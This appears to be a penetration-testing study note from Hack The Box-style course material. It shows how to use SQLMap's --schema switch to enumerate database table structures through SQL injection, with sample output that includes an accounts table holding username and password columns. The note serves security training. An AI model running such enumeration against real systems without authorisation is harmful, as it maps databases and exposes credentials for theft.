﻿---
sticker: lucide//database-backup
---
Now that we have covered the basics of database enumeration with SQLMap, we will cover more advanced techniques to enumerate data of interest further in this section.

---

## DB Schema Enumeration

If we wanted to retrieve the structure of all of the tables so that we can have a complete overview of the database architecture, we could use the switch`--schema`:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type |
+--------+--------------+
| date | datetime |
| agent | varchar(512) |
| id | int(11) |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column | Type |
+-------------+---------+
| cid | int(11) |
| mysignature | text |
| password | text |
| username | text |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column | Type |
+---------+---------+
| content | blob |
| id | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column | Type |
+---------+---------------+
| id | int(11) |
| name | varchar(500) |
| surname | varchar(1000) |
+---------+---------------+
```

---